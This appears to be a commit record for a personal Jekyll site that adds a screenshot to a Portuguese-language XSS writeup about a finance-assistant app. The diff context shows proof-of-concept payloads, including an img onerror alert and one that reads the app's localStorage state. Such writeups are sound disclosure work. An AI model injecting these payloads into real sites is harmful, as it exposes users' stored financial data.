

Before and after one commit to Constantino021/Constantino021.github.io, a Jekyll site: the page built from writeups/xss-assistentedebolso.md, in a window 1280 px wide. Shown: the part 2028-3936 px from the top of the page at 82% size, without its empty margins (208-1073 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Enhance XSS writeup with images and details
Added images demonstrating XSS attack scenarios and updated explanations.

````diff
--- a/writeups/xss-assistentedebolso.md
+++ b/writeups/xss-assistentedebolso.md
@@ -60,6 +60,8 @@ O payload evoluiu em etapas progressivas, cada uma demonstrando um nível maior
 <img src=x onerror=alert('XSS-Costa')>
 ```
 
+![PoC - Confirmação de execução do XSS](xss-poc3.png)
+
 **2. Exfiltração parcial visível (prova que dá pra ler o localStorage):**
 ```html
 <img src=x onerror="alert('Dados que vazariam: ' + localStorage.getItem('assistente-financeiro-state').substring(0,150))">
````
Also changed, not shown: other parts of writeups/xss-assistentedebolso.md (+2 -0 lines).
